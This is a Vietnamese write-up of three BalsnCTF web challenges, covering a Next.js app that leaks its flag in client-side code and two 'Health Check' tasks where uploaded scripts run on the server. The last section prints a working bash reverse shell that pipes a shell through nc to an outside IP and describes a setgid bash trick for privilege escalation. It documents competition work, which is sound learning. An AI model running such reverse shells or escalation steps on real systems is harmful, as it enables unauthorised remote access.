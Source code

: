 # Write-up-BalsnCTF
### 1. my first app
![image](https://user-images.githubusercontent.com/82523299/188363439-d3381264-6dc6-467b-aadf-5e1508b4b868.png)

- Bài này được viết bằng nextjs, tôi chưa bao giờ học code js cả nên gặp nextjs là ngáo luôn ^^. Và tôi dành ra 1 tiếng để học cấp tốc tại trang https://nextjs.org/learn
- Đây là source và flag nằm ở ![image](https://user-images.githubusercontent.com/82523299/188363832-5d2212d0-d59a-43e1-9a59-fa0974b3dfa5.png)


- Vì không quen với kiểu code web routes nên mãi một hồi tôi mới biết được cách endpoine cái api hello để xuất ra secret ![image](https://user-images.githubusercontent.com/82523299/188363885-cba16781-280a-4203-a25c-abc45f6c8fa1.png)
- Nhưng thứ tôi cần là flag :((
- Trong source index.js tác giả đã `import globalVars from '../utils/globalVars'` để xuất cái title ở index của trang web và biến `globalVars` cũng chứa flag
- ![image](https://user-images.githubusercontent.com/82523299/188364193-53be8df9-c690-4b56-8680-841609a54592.png)
- Và tôi tìm mọi cách để có thể injected vào đây ^^, và rồi phát hiện không có cách nào cả
- Tôi thử search các version của thư viện nhưng đều là last version, ko có lỗi cve => cùng đường :((
- Sau khi quay lại đọc document của nextjs tôi tìm được từ khóa `one page website` đây là kiểu code mà server gửi các file frontend cho client để hướng dẫn client xử lí giảm gánh nặng cho server. Thế là tôi lục code trong DevTools của trang web
- Vì file index đã import globalVars nên data cũng được gửi về client
- ![image](https://user-images.githubusercontent.com/82523299/188365202-1c148fcd-d038-4981-822f-e57cfda31007.png)
#### Flag: BALSN{hybrid_frontend_and_api}

### 2.Health Check 1
![image](https://user-images.githubusercontent.com/82523299/188365589-0033b0b4-77c5-4134-bca1-cdd3b82c0582.png)
- Access tới trang web và nhận được đoạn json như trên
- Sau một hồi fuzz thì web này đúng kiểu chẳng có gì cả :((
- Và rồi dùng dirsearch scan thì ra được đường dẫn `http://fastest-healthcheck.balsnctf.com/docs`
- Tiếp tục fuzz đường dẫn mới và trang mới này cho phép upload 1 file zip chứa 1 file script, sau mỗi 30s server sẽ tự động đi tới và thực thi file script đó, đây là những gì trang web nói, phải đi kiểm chứng thôi ^^
- ![image](https://user-images.githubusercontent.com/82523299/188367367-baad6a7b-be63-487d-8d94-b3e67f80d815.png)

- Lúc đầu tôi up 1 file script viết bằng python và compile thành file elf vì tôi nghĩ chỉ có elf mới thực thi được và nhận được kết quả
- ![image](https://user-images.githubusercontent.com/82523299/188365983-ac7b2b5a-7c8a-4685-885d-77bedc966d39.png)
- Và lại đi google, tôi biết đến bash script bắt đầu thực hiện thôi
- Vì output chỉ trả về trên file nên tôi đã curl để xác định xem script có thật sự được thực thi không
- ![image](https://user-images.githubusercontent.com/82523299/188366450-9f748c56-5a0f-4650-ba82-ea4ee7a26498.png)
- Nhận được request và biết rằng script có hoạt động
![image](https://user-images.githubusercontent.com/82523299/188366605-401882ff-6544-44f2-b9df-bcb7d89a7e47.png)
- Tiếp đến tôi viết luôn script để vét cạn luôn server ^^
- ![image](https://user-images.githubusercontent.com/82523299/188367209-ef691870-5ee2-4866-b6d8-0d8844c23cb6.png)
- ![image](https://user-images.githubusercontent.com/82523299/188368158-e3312c54-d08a-4c6a-a34e-a6ad21be8de1.png)
- Thấy được file flag nhưng nhìn kĩ thì không có quyền read, sau một hồi lục lọi thì trong folder __pycache__ chưa file pyc của file flag1.py 
#### Flag: BALSN{y37_4n0th3r_pYC4ch3_cHa1leN93???}

### 3.Health Check 2
- Tương tự bài Health Check 1 thì bây h tìm cách lây dc file flag2, nhưng đây không phải file python nên ko nằm trong pycache nữa
- Tới đây lại khó khăn, tôi bắt đầu nghĩ đến khái niệm leo thang đặc quyền mà tôi hay nghe thấy, bắt đầu search và học và thử khá nhiều cách và tạch cuối cùng cũng tìm ra cách để giải bài này
- Tôi tìm thầy file này trong source leak ra và nó xử lí file docker-entry 
![image](https://user-images.githubusercontent.com/82523299/188442154-b0e91ad7-80b2-496c-bcdb-36cb0867038c.png)

- Tôi upload một file docker-entry
- ![image](https://user-images.githubusercontent.com/82523299/188442375-9e476321-b864-4427-b75e-6f93707a0fd3.png)
- File này sẽ copy bash vào thư mục data và thiết lập setgid và thực thi shell với egid=1000 
- Sau đó up script dưới dạng file ./run để nhận flag là xong

```
#!/usr/bin/bash
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f|sh -i 2>&1|nc 102.122.100.112 1000 >/tmp/f
```

```
$cat ../../flag2
BALSN{d0cK3r_baD_8ad_ro07_B4d_b@d}
![image](https://user-images.githubusercontent.com/82523299/188469974-a4c53d99-5f8d-4ea7-8eb8-ef6a55677d72.png)

```
![image](https://user-images.githubusercontent.com/82523299/188470169-d81c2569-cec4-4682-b305-bfecf665377f.png)

#### FLAG: BALSN{d0cK3r_baD_8ad_ro07_B4d_b@d}



